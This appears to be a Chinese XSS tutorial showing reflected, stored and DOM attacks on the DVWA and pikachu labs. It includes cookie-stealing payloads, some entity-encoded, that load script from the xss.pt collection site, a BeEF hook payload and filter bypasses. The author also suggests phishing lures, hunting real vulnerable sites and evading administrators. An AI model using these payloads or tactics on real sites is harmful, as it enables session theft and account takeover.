


# 浅谈XSS

url：https://xz.aliyun.com/t/9424


# XSS漏洞

# 绕过推荐

XSS绕过可以看看该文章：[XSS过滤绕过速查表](https://blog.csdn.net/weixin_50464560/article/details/114491500)

# 0.介绍

跨站攻击，即Cross Site Script Execution(通常简写为XSS)，是前端的漏洞，产生在浏览器一端的漏洞。它是指攻击者在网页中嵌入客户端脚本，主要利用js编写的恶意代码来执行一些想要的功能，也就是说它能干嘛是受到js的控制，那么js能执行出什么脚本代码就取决于它能干嘛。当用户使用浏览器浏览被嵌入恶意代码的网页时，恶意代码将会在用户的浏览器上执行。

## 0.1.能干嘛

常规用到的是盗取cookie、js做钓鱼攻击、流量指向等。主要是盗取管理员的会话和cookie信息，就是我们常说的管理员凭证，就意味着得到后台权限，可以直接利用。还能配合别的漏洞，比如可以和网页木马结合，扔到那里去跳转到网马地址，网马地址被执行后续就控制一些权限

# 1.原理分析

输出问题导致的js代码被识别执行

```
<?php

    $xss=$_GET['x'];
    echo $xss;
//127.0.0.1/test/xss.php?x=<script>alert(1)</script>
//js代码;<script>alert(1)</script> 调用执行
//漏洞产生原理：输出问题

?>
```

# 2.发现

由于漏洞产生在前端，那么发现的话，主要是看浏览器的执行

人为手工测试，测试显示地方是否能够自定义。一般出现在数据交互的地方（留言板，数据插入地方），比如网上的营销页面，购买商品需要自己选择，填写收货地址，电话等，这里可以把跨站语句插入进去，如果没有过滤，极有可能导致跨站漏洞

工具扫描测试（awvs，appscan）

# 3.分类

## 3.1.反射型XSS（非持续型XSS）

### 介绍

是一种非持续型攻击。漏洞本身存在，但是需要攻击者构造出来，然后让对方去触发。它不会对正常的访问造成跨站攻击。这种攻击是一次型攻击，它不会写入到数据库里。当用户访问一个带有XSS代码的URL请求时，服务器端接收数据后处理，然后把带有XSS的数据发送到浏览器，浏览器解析这段带有XSS代码的数据后，最终造成XSS漏洞。这个过程就像一次反射。

### 出现地方

交互的数据一般不会被存在数据库里面，一次性，所见即所得，一般出现在查询类页面

### 3.1.1.注意事项

我们可通过发送构造的链接，来进行利用：

- 需要一个网站，网站中有个能够收集cookie 的文件
- 需要有收集受害者cookie后将收集的cookie发送给网站中文件的js文件
- 构造链接，当用户点击该链接时，相当于执行了获取该用户的cookie并把cookie发送给收集cookie文件的操作。

例1：如果是NASA网站的跨站，大家完全可以在一些天文爱好者聚集的群里发类似这样的消息，如：“美国航空航天局公布最新UFO照片”然后加上我们的链接。由于是NASA的链接(现在连小学生都知道NASA是干什么的)，我想应该会有一部分人相信而去点击从而达到了我们的目的，这个反射型的XSS被触发。

例2：

（1）用户z是网站www.xxx.org的粉丝，此时正在论坛看信息。

（2）攻击者发现www.xxx.org/xss.php存在反射型漏洞，然后精心构造JavaScript代码，此段代码可以盗取用户cookie发送到指定的站点www.xxser.com。

（3）攻击者将带有反射型XSS漏洞的URL通过站内信发送给用户z，站内信为一些诱惑信息，目的是为了让用户z单击链接。

（4）假设用户z单击了带有XSS漏洞的URL，那么将会把自己的cookie发送到网站www.xxser.com。

（5）攻击者将接收到用户z的会话cookie，可以直接利用cookie以z的身份登录www.xxx.org，从而获取用户z的敏感信息 。

### 3.1.2.过程

参考：[通过DVWA学习XSS](https://blog.csdn.net/weixin_50464560/article/details/114782337)反射型XSS从简入难

#### 3.1.2.1.判断

比如如下网站：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409210859-bf3d81a8-9934-1.jpg)

我们在账户输入处输入whoami，查看源代码，按下ctrl+f来搜索：whoami，看出现在哪个位置，来构造特定的payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409210915-c943955c-9934-1.jpg)

我们可以构造`"> <script>alert('XSS')</script>`把前面的`<input`闭合掉，让它执行后面的代码，构造好代码后把URL变成短链接发送给管理员，管理员点击打开获取他的cookie登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409210934-d49f9784-9934-1.jpg)

挖掘反射型xss的方法就是这些，手工也是这个方法，只是需要自己去找存在xss漏洞的网站，手工就一句话：见框就插，改数据包中的参数，改URL中的参数，js源代码分析。

改数据包，js源代码分析比较深就不再细说了，见框就插就比较好理解了，先在输入框输入唯一的字符串，查看源代码字符串的位置，在输入 `<>""/&()`的时候看过滤了什么，根据过滤的字符来构造特定的xss代码

#### 3.1.2.1.使用工具

**注意：这里网上有许多搭建的XSS Platform，如果一个不能用可以换别的用，不一定要用我给的这个，甚至可以自己搭建一个XSS Platform。不过下面的过程是我基于这个网站使用的，都大同小异**

自己搭建XSS Platform可以参考这篇文章：https://blog.csdn.net/weixin_50464560/article/details/115355509 (其中`BlueLotus_XSSReceiver(蓝莲花)`的搭建和源码也在里面，如何使用在其中的READEME.md里，还有这篇会更加详细：https://blog.csdn.net/weixin_50464560/article/details/115360092）

1.

先使用XSS Platform：https://xss.pt/，点击“创建项目”。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409210956-e1926fa2-9934-1.jpg)

打勾“默认模块”，该模块是获取cookie值的。

- 无keepsession
- keepsession

`无keepsession`和`keepsession`的区别:

`keepsession`的意思是保持连接，也就是当获取到目标网站的cookie后，保持这个cookie，因为网站cookie可能是有时效的，比如时效为10分钟，那么当接收到这cookie后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择`keepsession`后，没有及时查看，cookie过期失效了，那么这个cookie就没有用处了。当选择`keepsession`后，XSS Platform将会一直在后台刷新cookie，也就是保持这个cookie的有效性，反之，`无keepsession`就是不保持连接。

那么`keepsession` 到底是怎么样实现的呢？看了下代码发现很简单，平台会自动的隔一段时间，遍历整个 `keepsession` 表里面的数据。随后循环对目标服务器进行一次带cookie的请求。这样就实现了维持会话的功能了。

下面的其他模块，各自代表着xss的其他种攻击，具体可在“配置代码”这步选完进去后，在左边的“公共模块”里点击，查看模块信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211015-ecf0bbba-9934-1.jpg)

以下为部分截图，只要将其中一种代码插入怀疑出现XSS的地方，发给别人，如果有人点击该地址，我们就可在"项目内容"中查看其cookie值

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211030-f5f1fdfa-9934-1.jpg)

其中的代码看情况来用。下面写出我比较常用，直接插入构造，访问后cookie可返回到“项目内容”的代码。

```
图片插件一：  https://xss.pt/GFLXp.jpg    


一、
1.<sCRiPt sRC=//xss.pt/GFLX></sCrIpT>

2.标准代码
</tExtArEa>'"><sCRiPt sRC=https://xss.pt/GFLX></sCrIpT>

二、IMG 标签
1.
</tEXtArEa>'">

2.

3.通杀火狐谷歌360


三、标签iframe等
1.实体10进制编码↓
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#115;&#46;&#112;&#116;&#47;&#71;&#70;&#76;&#88;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>

2.实体16进制编码
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x78;&#x73;&#x73;&#x2E;&#x70;&#x74;&#x2F;&#x47;&#x46;&#x4C;&#x58;&#x22;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E;>
```

这里我用到dvwa靶场的medium级别。为了更好的验证，我使用了username为1337的用户进行登录。

这里我先构造js代码测试出这里存在反射型xss漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211106-0b0bcd60-9935-1.jpg)

然后构造链接

```
http://192.168.1.3/dvwa/vulnerabilities/xss_r/?name=%3Ciframe WIDTH%3D0 HEIGHT%3D0 srcdoc%3D%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%26%23x3C%3B%26%23x73%3B%26%23x43%3B%26%23x52%3B%26%23x69%3B%26%23x50%3B%26%23x74%3B%26%23x20%3B%26%23x73%3B%26%23x52%3B%26%23x43%3B%26%23x3D%3B%26%23x22%3B%26%23x68%3B%26%23x74%3B%26%23x74%3B%26%23x70%3B%26%23x73%3B%26%23x3A%3B%26%23x2F%3B%26%23x2F%3B%26%23x78%3B%26%23x73%3B%26%23x73%3B%26%23x2E%3B%26%23x70%3B%26%23x74%3B%26%23x2F%3B%26%23x47%3B%26%23x46%3B%26%23x4C%3B%26%23x58%3B%26%23x22%3B%26%23x3E%3B%26%23x3C%3B%26%23x2F%3B%26%23x73%3B%26%23x43%3B%26%23x72%3B%26%23x49%3B%26%23x70%3B%26%23x54%3B%26%23x3E%3B%3E#
```

然后再用admin账户登录，级别为low。复制构造好的网址并访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211139-1eb2f168-9935-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211158-2a1ef7b8-9935-1.jpg)

然后就盗取到该cookie了，看到cookie值security=low，正好是我们设置的low级别，得知盗取admin账户的cookie成功了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211234-3f71b60a-9935-1.jpg)

最后按F12，点击Application这一栏，将其中的cookie修改为我盗取到的admin的cookie，再刷新界面，可以看到我们变成了admin的账户，级别也变为low了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211304-5192e99e-9935-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211339-6643020c-9935-1.jpg)

#### 3.1.2.2.注意

刚开始我不是用火狐的低版本浏览器来验证，而是用Microsoft Edge 88.0.705.74的高版本浏览器来验证，一直失败，最后用火狐就成功了。我觉得这里应该是涉及到了浏览器的安全策略问题，所以尽量使用低版本的浏览器来做XSS漏洞，高版本会过滤js本地的一些脚本的加载使攻击失效。

### 3.1.3.特别操作

#### 3.1.3.1.XSS之href输出

在a标签的href属性里面,可以使用javascript协议来执行js，可以尝试使用伪协议绕过。

```
javascript:alert(/xss/)
```

点击即可触发弹窗

这里是自己写的一个a标签的href属性：`<a href=javascript:alert(/xss/)>xss</a>`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211409-77f8943a-9935-1.jpg)

如果你在输入框中输入的代码直接出现在a标签的href属性里面，那就直接写`javascript:alert(/xss/)`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211438-896e41f6-9935-1.jpg)

#### 3.1.3.2.XSS之盲打

XSS盲打是一种攻击场景。我们输出的payload不会在前端进行输出，当管理员查看时就会遭到XSS攻击。

输入常规的payload:`<script>alert(1)</script>`,点击提交后发现这里提示一段文字，应该是直接传到后台了，找到后台，登录进去看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211458-957e56ac-9935-1.jpg)

后台地址是/xssblind/admin_login.php。pikachu有三个初始用户，我这里的是用户名admin，密码123456，登录即可触发XSS

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211517-a0f63130-9935-1.jpg)

还有一点，如果碰上了XSS中目标不让信息显示出来，如果能发送请求，那么就可以尝试咱这个办法——用DNSlog来获取回显。简单来说，在xss上的利用是在于我们将xss的攻击代码拼接到dnslog网址的高级域名上，就可以在用户访问的时候，将他的信息带回来。具体可以看我的另外一篇笔记，是关于DNSlog来使本来不会显示的信息回显的，比如SQL盲注就可以利用此方法

#### 3.1.3.3.XSS之过滤

具体可看这个：[XSS过滤绕过速查表(按ctrl键点我跳转)](https://xz.aliyun.com/t/9424#2)

输入`'<script>alert(1)</script>` ，看输出结果和前端源码，被过滤得只剩下`'>`了，输入与输出结果不一致。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211536-ac17b282-9935-1.jpg)

这里看一波源码，发现这里会使用正则对<script进行替换为空,也就是过滤掉，但是只是对小写进行了替换。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211558-b95c579a-9935-1.jpg)

那我们就尝试用大写绕过

payload：`<Script>alert(1)</sCript>`

成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211620-c66decc8-9935-1.jpg)

因为这里只是过滤了`script`，所以其实还有许多payload可以尝试，比如：``点击图片触发弹窗、``鼠标移动到图片的位置触发弹窗、``图像加载过程中发生错误时触发弹窗。还有下面这种：

```
<iframe/src=data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=></iframe>
//iframe元素会创建包含另外一个文档的内联框架（即行内框架）。我将<script>alert(/xss/)</script>用base64编码然后放在iframe元素里，这里也可以绕过
```

## 3.2.存储型XSS（持续型XSS）

### 介绍

是一种持续型的攻击。将跨站代码植入到网站的数据库中。一旦攻击者第一次成功攻击之后，那么在后续的其他访问者均会受到跨站攻击。这种攻击可能是写到网站的留言板，那么当对方访问留言板就会被触发。它与反射型、DOM型XSS相比，具有更高的隐蔽性，危害性也更大。它们之间最大区别在于反射型与DOM型XSS执行都必须依靠用户手动触发，而存储型XSS却不需要。

### 出现地方

交互的数据会被存在数据库里面，永久性存储，一般出现在留言板、注册等页面

### 3.2.1.过程

#### 3.2.1.1.判断

存储型xss和反射型不同的地方在于他会把输入的数据保存在服务端，反射型输入的数据游走在客户端

存储型xss主要存在于留言板评论区，因为最近没有挖到存储型xss，所以这里就用dvwa的留言板用来演示：

点击留言**(这里最好不要使用`<script>alert("xss")</script>`来测试是否存在XSS漏洞，容易被管理员发现，所以你可以使用``来测试，如果成功了，不会被管理员发现)** OK，我先在留言里输入`<a>s</a>`提交留言，F12打开审查元素，来看我们输入的标签是否被过滤了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211647-d6293b2c-9935-1.jpg)

发现没有过滤 (如果`<a>s</a>`中的`<a></a>`是彩色的说明没有过滤，如果是灰色就说明过滤了)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211715-e72d2474-9935-1.jpg)

这里换成`impossible`级别就是灰色的，说明被过滤了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211751-fce0283e-9935-1.jpg)

这里留言板中只留下s，并且s是这样显示的，也说明这里没有过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211815-0afbd260-9936-1.jpg)

这里换成`impossible`级别就留下`<a>s</a>`，说明被过滤了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211836-17af3916-9936-1.jpg)

#### 3.1.2.2.使用工具

和反射型XSS的利用方法大同小异

[反射型XSS(按ctrl键点我跳转)](https://xz.aliyun.com/t/9424#1)

#### 3.1.2.3.优势

我在留言板中写下如下留言：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211855-23004aee-9936-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211913-2d5463c2-9936-1.jpg)

只要管理员点击那个留言板中已经成功写入获取cookie代码的网页，我们就可以获取到管理员的cookie和后台地址

比如这里我一在dvwa的留言板中刷新，XSS Platform中就会有我的cookie和这个dvwa的地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409211928-3695a568-9936-1.jpg)

## 3.3.DOM型XSS

### 介绍

[DOM-XSS攻击原理与防御](https://www.cnblogs.com/mysticbinary/p/12542695.html)

[DOM型xss深度剖析与利用](https://blog.csdn.net/Bul1et/article/details/85091020)

 DOM的全称为Document Object Model，即文档对象模型，DOM通常用于代表在HTML、XHTML和XML中的对象。使用DOM可以允许程序和脚本动态地访问和更新文档的内容、结构和样式。

 通过js可以重构整个HTML页面，而要重构页面或者页面中的某个对象，js就需要知道HTML文档中所有元素的“位置”。而DOM为文档提供了结构化表示，并定义了如何通过脚本来访问文档结构。根据DOM规定，HTML文档中的每个成分都是一个节点。

 DOM的规定如下：

- 整个文档是一个文档节点；

- 每个HTML标签是一个元素节点；

- 包含在HTML元素中的文本是文本节点；

- 每一个HTML属性是一个属性节点；

- 节点与节点之间都有等级关系。

  HTML的标签都是一个个的节点，而这些节点组成了DOM的整体结构：节点树。如图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212007-4dc558b4-9936-1.jpg)

简单来说，DOM为一个一个访问html的标准编程接口。

可以发现DOM本身就代表文档的意思，而基于DOM型的XSS是不需要与服务器端交互的，它只发生在客户端处理数据阶段，是基于javascript的。而上面两种XSS都需要服务端的反馈来构造xss。

DOM型XSS示例：

```
<script>
    var temp = document.URL;  //获取URL
var index = document.URL.indexOf("content=")+4;
var par = temp.substring(index);
document.write(decodeURI(par));  //输入获取内容
</script>
```

上述代码的意思是获取URL中content参数的值，并且输出，如果输入

`网址?content=<script>alert(/xss/)</script>`,就会产生XSS漏洞

这里再举一例：

这个文件名为123.html

```
<script>
document.write(document.URL.substring(document.URL.indexOf("a=")+2,document.URL.length));
</script>
```

**在这里我先解释下上面的意思**

Document.write是把里面的内容写到页面里。

document.URL是获取URL地址。

substring 从某处到某处，把之间的内容获取。

document.URL.indexOf("a=")+2是在当前URL里从开头检索a=字符，然后加2(因为a=是两个字符，我们需要把他略去)，同时他也是substring的开始值

document.URL.length是获取当前URL的长度，同时也是substring的结束值。

合起来的意思就是：在URL获取a=后面的值，然后把a=后面的值给显示出来。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212032-5c9dd104-9936-1.jpg)

怎么会出现这个问题呢？

因为当前url并没有`a=`的字符，而`indexOf`的特性是，当获取的值里，如果没有找到自己要检索的值的话，返回-1。找到了则返回0。那么`document.URL.indexOf("a=")`则为-1，再加上2，得1。然后一直到URL最后。这样一来，就把file的f字符给略去了，所以才会出现`ttp://127.0.0.1/123.html`

大致的原理都会了，我们继续下面的

我们可以在123.html后面加上?a=123或者#a=123，只要不影响前面的路径，而且保证a=出现在URL就可以了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212125-7c39f7cc-9936-1.jpg)

我们清楚的看到我们输入的字符被显示出来了。

那我们输入`<script>alert(1)</script>`会怎么样呢？

答案肯定是弹窗(这个用的是360安全浏览器)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212149-8a885f9e-9936-1.jpg)

但是这下面没却没有弹窗，这是为什么呢？这是因为浏览器不同，maxthon、firefox、chrome则不行，他们会在你提交数据之前，对url进行编码。这不是说DOM型XSS不行了，这只是个很简单的例子，所以不用在意。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212209-961992a6-9936-1.jpg)

我再次强调下，DOM型XSS 是基于javascript基础上，而且不与服务端进行交互，他的code对你是可见的，而基于服务端的反射型、存储型则是不可见的。

### 3.3.1.利用原理

客户端JS可以访问浏览器的DOM文本对象模型是利用的前提，当确认客户端代码中有DOM型XSS漏洞时，并且能诱使(钓鱼)一名用户访问自己构造的URL，就说明可以在受害者的客户端注入恶意脚本。利用步骤和反射型很类似，但是唯一的区别就是，构造的URL参数不用发送到服务器端，可以达到绕过WAF、躲避服务端的检测效果。

### 3.3.2.过程

输入测试代码`'"<>`，显示的内容和我们所输入的有所不同

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212235-a5dc183a-9936-1.jpg)

那就来看看源码吧

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212255-b18862ce-9936-1.jpg)

HTML的DOM中，`getElementById()`方法可返回对拥有指定 ID 的第一个对象的引用。语法为：`document.getElementById(id)`。在这里就是获取标签id为`text`的值传递给`str`，`str`通过字符串拼接到a标签中。所以我们要闭合前面的标签

输入payload：`'>`成功闭合，鼠标移动到图片的位置触发弹窗

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212316-be64bf1a-9936-1.jpg)

# 4.注意事项

1.能不能执行js代码主要看浏览器的安全策略怎么样，要考虑到各个浏览器的版本的安全策略，浏览器版本比较高的时候，有些js代码会被禁用。像IE高版本会过滤js本地的一些脚本的加载，所以存在这个攻击也会攻击失效

2.需要受害者去配合。一般需要特定的人去访问去触发才行。是被动攻击

# 5.XSS工具

## 5.1.xss平台

上面已经介绍过，这里就不赘述了

[反射型XSS(按ctrl键点我跳转)](https://xz.aliyun.com/t/9424#1)

## 5.2.BeEF

这个工具在kali上有集成。

该使用工具在freebuf上有一个系列文章，写的非常好，这里分享一下：[BeEF](https://www.freebuf.com/sectool/178512.html)

我这里就简单介绍下如何使用吧。

先打开kali，这里打开beef的方式有两种，第一种是以下这种：

在这里搜索beef，点击其中的`beef xss framework`或者`beef start`任选一个

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212355-d5b8d46c-9936-1.jpg)

第二种是直接命令行中敲`beef-xss`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212414-e107d980-9936-1.jpg)

然后都是在命令行上，等待上面的秒数从5到1后，会跳出一个页面让我们登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212431-eb0c3d90-9936-1.jpg)

这里如果不知道用户名和密码的话，可以在命令行敲这个命令：`vim /etc/beef-xss/config.yaml`，在里面可以进行查看。如果想修改的话也可以自行修改，修改了密码则要重新启动BeEF进行登录(如果登录不了，则kali重启再重新启动程序)

登录成功，里面是长这个样子

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212447-f4b0a746-9936-1.jpg)

这时候啥都干不了，是因为你有一步很重要的操作没做。这里需要把图中红框中的payload复制粘贴到你的目标xss的位置，然后将其中的`<IP>`改成你这台kali的IP地址，最终payload为：`<script src="http://X.X.X.X:3000/hook.js"></script>`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212506-ffdb69d0-9936-1.jpg)

这里我用dvwa来模拟场景。将payload插入其中，点击submit

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212527-0c4d69ac-9937-1.jpg)

这时候再回到BeEF中查看，会发现online browers中多了点东西，这时候就可以开始操作了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212553-1b9eee44-9937-1.jpg)

我这里介绍下这个主页面：

其中最左边的是`Hooked Browers`

- online browers：在线浏览器
- offline browers：离线浏览器

`Current Browser`中的这几栏分别有：

```
Detials
```

- 浏览器、插件版本信息，操作系统信息

```
Logs
```

- 浏览器动作：焦点变化，鼠标单击，信息输入

```
commands
```

- 绿色模块：表示模块适用当前用户，并且执行结果对用户不可见
- 红色模块：表示模块不适用当前用户，有些红色模块也可以执行
- 橙色模块：模块可用，但结果对用户可见
- 灰色模块：模块为在目标浏览器上测试过

介绍完之后，再回到刚才的场景。这里在BeEF中的`Current Browser`中点击其中的`Commnads`，其中就可以选择许多模块来对目标进行攻击

这里举波例子：

选择 `Brower`下面的`Hooked Domain`中的`Create Alert Dialog`（创造一个弹窗 ），点击右下角的`Execute`运行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212613-28091fce-9937-1.jpg)

然后看看dvwa的状态，成功弹窗

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212627-30184244-9937-1.jpg)

这里再举个获取cookie的例子：

选择 `Brower`下面的`Hooked Domain`中的`Get Cookie`，点击右下角的`Execute`运行。

然后就会返回目标的cookie

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212644-3a6c7274-9937-1.jpg)

这里我模拟管理员，我的cookie就被窃取走了。可是这里来到浏览器按F12打开开发者工具比对完发现少了两个，这里来看下

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212658-42defc74-9937-1.jpg)

原来是因为这里的另外两个cookie带有`HttpOnly`，所以获取不到。这点我在最后的**修复**中会有提及。

# 6.挖掘XSS

之前说过了修改输入框和URL参数来实现XSS。我在这里深入一点说明下。

修改URL参数的时候，你看到的只是用GET来传输数据的，还有隐形的数据，他们是用POST来传输数据，只有在数据包里才可以看到。

废话不多说，下面进入正题：

## 6.1.方法

### 6.1.1.手工检测XSS

使用手工检测Web应用程序是否存在XSS漏洞时，最重要的是考虑哪里有输入、输入的数据在什么地方输出。

使用手工检测XSS时，一定要选择有特殊意义的字符，这样可以快速测试是否存在XSS。比如，测试某输入框是否存在XSS漏洞时，不要直接输入XSS跨站语句测试，应该一步一步地进行，这样更有利于测试。

#### 6.1.1.1.可得知输出位置

输入一些敏感字符，例如`<`、`>`、`"`、`'`、`()`等，在提交请求后查看HTML源代码，看这些输入的字符是否被转义。

在输出这些敏感字符时，很有可能程序已经做了过滤，这样在寻找这些字符时就不太容易了，这时就可以输入`AAAA<>'''&`字符串，然后在查找源代码的时候直接查找`AAAA`这样或许就会比较方便了。

#### 6.1.1.2.无法得知输出位置

非常多的Web应用程序源代码是不对外公开的，这时在测试XSS时就有可能无法得知输入数据到底在何处显示，比如，测试某留言板是否存在XSS，那么在留言之后，可能需要经过管理员的审核才能显示，这时无法得知输入的数据在后台管理页面处于何种状态，例如：

 在`<div>`标签中：`<div>XSS Test</div>`

 在`<input>`标签中：`<input type="text" name="content" value="XSS Test"/>`

 对于这种情况，通常会采用输入`"/>XSS Test`来测试。

### 6.1.2.全自动检测XSS

AWVS、APPSCAN等软件都可以有效地检测XSS漏洞，但是这些大型漏洞扫描工具不仅会检测XSS漏洞外，还会检测像SQL注入漏洞等其他漏洞。虽然这些漏洞扫描工具可以配置只检测XSS漏洞，但是却比如专门的XSS检测工具效率高。

专门的XSS扫描工具有很多，像XSSER、XSSF等都很好用。也有大牛自己制作的扫描XSS漏洞的工具等等。

检测XSS一定要工具和手工并进，这样才能更好地检测XSS。比如在扫描XSS时，很多漏洞扫描器一般都无法检测非常规的XSS漏洞，例如在提交留言时可能需要短信验证、验证码填写等，这些工具是无法做到的。

### 6.1.3.骚操作

我们都知道当你浏览网站的时候，对方的服务器会记录下你的IP地址。如果我们伪造IP为XSS代码呢？这里说的修改IP为XSS不是说修改PC端的，而是在浏览器也就是网页上的客户端进行修改。

#### 6.1.3.1.使用工具

这里需要使用firefox浏览器和两个附件（用一个就行）

**附件一：X-Forwarded-For Header**

因为PHP获取IP有3个函数。而X-Forwarded-For Header就是对其中一个函数X_FORWARDED_FOR起作用，X_FORWARDED_FOR有个缺陷可以使客户端伪造任意IP，当然包括字符串，但是对其他两个函数就不行了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212731-566c836a-9937-1.jpg)

**附件二：Modify Headers**

`Modify Headers`可以伪造数据包内容，当然也可以伪造`HTTP_CLIENT_IP`来更改IP。

那还有一个`REMOTE_ADDR`获取IP函数，这个怎么修改呢？答案是无法修改。

`REMOTE_ADDR`是由 nginx 传递给 php 的参数，所以就是当前 nginx 直接通信的客户端的 IP ，而我们无法插手。所以一旦对方使用了`REMOTE_ADDR`函数来获取IP，那就没办法了。不过不要紧，一共3个函数，2个函数可以伪造，我们还是有很大的成功率的。好了，开始伪造。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212757-6604d728-9937-1.jpg)

这里**Modify Headers**的用法就是点击左上角`Select action`，选择`Add`，就可以加了。`X-Forwarded-For`得用`Modify`，这样才能填`Header value`，最后还要记得点击左上角的Start。

#### 6.1.3.2.结果

伪造好后，就打开[www.ip138.com](https://link.zhihu.com/?target=http%3A//www.ip138.com/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212815-70cff390-9937-1.jpg)

